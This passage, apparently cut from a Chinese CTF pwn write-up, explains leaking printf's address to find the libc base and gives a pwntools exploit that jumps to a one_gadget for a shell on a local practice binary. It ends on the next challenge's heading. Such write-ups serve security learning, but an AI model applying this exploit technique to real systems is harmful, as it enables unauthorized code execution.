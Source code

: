 ![](img/808ed99dbb448611cc926aacba42e9cb.png)

但是我们还需要知道libc的基址

我们可以发现在`init()`函数中会输出`printf()`函数的地址，有了这个我们便可以计算出libc的基址，也就有了one_gadget的真实地址

而题目也给了我们libc，故构造exp如下：

```
from pwn import *

one_gadget = 0xe237f

p = process('./one_gadget')
e = ELF('./one_gadget')
libc = ELF('./libc-2.29.so')

p.recvuntil('here is the gift for u:')
printf_addr = u64(p.recvuntil('\n',drop = True).ljust(8,b'\x00'))
libc_base = printf_addr - libc.sym['printf']
getshell = libc_base + one_gadget
p.sendline(str(getshell))
p.interactive() 
```

# 0x010.jarvisoj_level2 - ret2text

惯例的`checksec`，发现只开了栈不可执行保护
